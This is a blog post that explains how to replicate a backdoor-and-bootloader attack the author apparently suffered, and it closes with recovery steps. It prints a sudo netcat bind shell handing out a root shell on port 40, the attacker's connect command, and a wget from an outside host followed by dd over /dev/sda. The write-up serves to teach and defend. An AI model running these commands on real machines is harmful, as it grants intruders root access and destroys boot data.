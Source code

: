 ```yaml
---
layout: post
title: Nyan Cat Hack - How To
---
```

After the <a href="/2012/10/01/nyan_story.html">Nyan Cat Hack</a>, I wanted to learn how it was executed to get a better idea of what happened so that I could protect myself. This post is a simple description of how to replicate the hack. This is divided into two parts, the backdoor and the bootloader. Disclaimer: this is meant for education only. Do not illegally hack into other machines.

## The Backdoor

CowCli, the malicious binary, had a simple set of NetCat commands embedded within it that allowed terminal access into the victim’s machine. When CowCli is run, it behaves as intended along with executing the following code on the victim’s computer: This code can be executed stand alone from the command line.

```
sudo rm /etc/alternatives/nc && sudo ln -s /bin/nc.traditional /etc/alternatives/nc
sudo nc -l -p 40 -e /bin/sh 
```

The first command here is replacing the default NetCat with nc.traditional. This command might be optional, though was necessary for me to replicate the attack. Note that on OpenBSD machines, nc.openbsd should be used in place of nc.traditional. The second command is the true backdoor. This tells the victim’s machine to listen for traffic on port 40 and return a shell to the first connection to that port. The returned shell will have privileges equal to that of the NetCat process, so executing the second command with sudo will return a root shell.

Once the above commands have been run on the victim’s machine, the attacker can execute this bit of code:

`nc {victim's local IP address} 40`

This will simply connect to the port that the previous NetCat commands opened. Once executed, you will be able to use the connection as an interactive shell into the victim’s computer. This most likely will only work over a local network. To perform this attack on a remote user, that user’s router would need to be reconfigured so that port 40 traffic is directed to the target machine.

## The Bootloader

Once you have root access to a remote computer, you can do anything you want with it. My attacker chose to overwrite my bootloader with his own bootloader code. The bootloader is a small piece of code that the BIOS executes to boot into an operating system. I recommend that if you wish to replicate this attack, to do so in a virtual machine. This attack uses the dd command, and a mistake here can result in lost data or lock you out of your machine.

To overwrite the bootloader of the victim’s machine with Nyan Cat, follow these steps from the victims machine.

```
wget https://minemu.org/nyanmbr/nyan.mbr
dd if=nyan.mbr of=/dev/sda
```

The first command here is retrieving the Nyan Cat bootloader. The second command is overwriting the first sector of the primary device. The first sector is where the BIOS looks to load an operating system. This command is essentially saying to replace the first X bits of the hard disk with nyan.mbr, where X is the length of nyan.mbr in bits. if=input file, of=output file.

Now, give the machine a restart and check out how it behaves!!

To recover the bootloader, continue on. The first thing we need to do is boot from a LiveCD. For Ubuntu, this is as simple as popping in the disk or .iso file used to install the machine. Reboot the victim’s machine, press the key to open the BIOS menu, and find the option that lets you boot from the CD rom drive. You can either boot into the operating system directly off the CD or sometimes there’s an option to load up a terminal without booting all the way into the OS. Either way, get to a terminal window and follow the rest of the instructions. I learned the next steps here.

```
mkdir /mnt/myroot
sudo mount /dev/sda1 /mnt/myroot
sudo mount --bind /dev /mnt/myroot/dev
sudo mount --bind /proc /mnt/myroot/proc
sudo mount --bind  /sys /mnt/myroot/sys
sudo chroot /mnt/myroot
sudo grub-install /dev/sda
```

These steps are recreating a clean root in your machine. Steps 3,4,5 are copying the LiveCD’s dev, proc, and sys data into a new root. The chroot command locks the user into /mnt/myroot, such that from the user’s perspective /mnt/myroot becomes the root of the file system. Finally, grub-install replaces the nyan bootloader with the grub bootloader, the stock Ubuntu bootloader. After executing these commands, issue another restart on the machine and make sure you boot from disk (instead of the LiveCD again). If performed correctly, this should boot you back into your operating system, with all your data in tact.

Happy hacking!


